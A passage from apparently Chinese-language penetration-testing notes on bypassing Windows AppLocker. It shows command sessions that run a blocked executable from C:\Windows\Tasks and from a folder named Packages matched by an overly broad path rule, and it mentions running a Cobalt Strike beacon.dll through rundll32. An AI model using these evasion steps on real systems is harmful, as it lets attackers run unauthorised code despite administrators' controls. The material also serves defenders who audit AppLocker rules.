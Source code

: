 C:\Users\Administrator\Desktop>move test.exe C:\Windows\Tasks
        1 file(s) moved.

C:\Users\Administrator\Desktop>C:\Windows\Tasks\test.exe
Bye-Bye AppLocker!
```


这是一个过于宽松的规则的例子。
```
KeyName     : Software\Policies\Microsoft\Windows\SrpV2\Exe\3470949d-4a86-4ec5-aa37-5ad7acd6a925
ValueName   : Value
ValueType   : REG_SZ
ValueLength : 482
ValueData   : <FilePathRule Id="3470949d-4a86-4ec5-aa37-5ad7acd6a925"
                Name="Packages"
                Description="Allow custom packages"
                UserOrGroupSid="S-1-1-0"
                Action="Allow">
                  <Conditions>
                    <FilePathCondition Path="%OSDRIVE%\*\Packages\*"/>
                  </Conditions>
                </FilePathRule>
```

上面规则的意思是允许任何C盘下的```Packages```文件夹执行可执行程序，```%OSDRIVE%\*\Packages\*```=```C:\*\Packages\*```

因此这里是一个绕过的例子
```
C:\Users\Administrator\Desktop>test.exe
This program is blocked by group policy. For more information, contact your system administrator.

C:\Users\Administrator\Desktop>mkdir Packages

C:\Users\Administrator\Desktop>move test.exe Packages
        1 file(s) moved.

C:\Users\Administrator\Desktop>Packages\test.exe
Bye-Bye AppLocker!
```
## DLL

AppLocker很少启用DLL规则，可能会引起系统不稳定而且需要很多测试

Cobalt Strike可以把恶意payload编译成dll方式，使用windwos的rundll32执行
```
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 8A6C-CD61

 Directory of C:\Users\Administrator\Desktop

05/17/2021  11:01 PM    <DIR>          .
05/17/2021  11:01 PM    <DIR>          ..
05/17/2021  10:59 PM           311,808 beacon.dll
